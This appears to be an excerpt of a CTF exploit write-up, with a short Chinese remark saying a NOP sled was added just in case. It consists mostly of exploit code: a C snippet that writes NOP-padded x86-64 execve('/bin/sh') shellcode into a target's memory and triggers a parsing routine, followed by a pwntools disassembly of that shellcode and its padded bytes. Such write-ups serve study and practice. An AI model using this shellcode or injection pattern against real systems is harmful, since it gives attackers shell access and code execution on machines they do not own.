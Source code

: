 ```c
    uint8_t *sc = "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90j;X\x99H\xbb//bin/shH\xc1\xeb\x08SH\x89\xe7RWH\x89\xe6\xb0;\x0f\x05";
    for (size_t i = 0; i < 0x100/8; i++) {
        set64(7, 8*i, ((uint64_t *)sc)[i]);
    }
    parse_bdlp(7, 0x1a-2);
```

shellcode：

```python
>>> from pwn import *
>>> context.os = "linux"
>>> context.arch = "amd64"
>>> print(disasm(b"\x6a\x3b\x58\x99\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xeb\x08\x53\x48\x89\xe7\x52\x57\x48\x89\xe6\xb0\x3b\x0f\x05"))
   0:   6a 3b                   push   0x3b
   2:   58                      pop    rax
   3:   99                      cdq
   4:   48 bb 2f 2f 62 69 6e 2f 73 68   movabs rbx, 0x68732f6e69622f2f
   e:   48 c1 eb 08             shr    rbx, 0x8
  12:   53                      push   rbx
  13:   48 89 e7                mov    rdi, rsp
  16:   52                      push   rdx
  17:   57                      push   rdi
  18:   48 89 e6                mov    rsi, rsp
  1b:   b0 3b                   mov    al, 0x3b
  1d:   0f 05                   syscall
>>> print(b"\x6a\x3b\x58\x99\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xeb\x08\x53\x48\x89\xe7\x52\x57\x48\x89\xe6\xb0\x3b\x0f\x05".rjust(0x100, b"\x90"))
b'\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90j;X\x99H\xbb//bin/shH\xc1\xeb\x08SH\x89\xe7RWH\x89\xe6\xb0;\x0f\x05'
```

> [!tips]
>
> 保险起见，shellcode前加了一些滑板指令，实际用没用到不清楚hhh
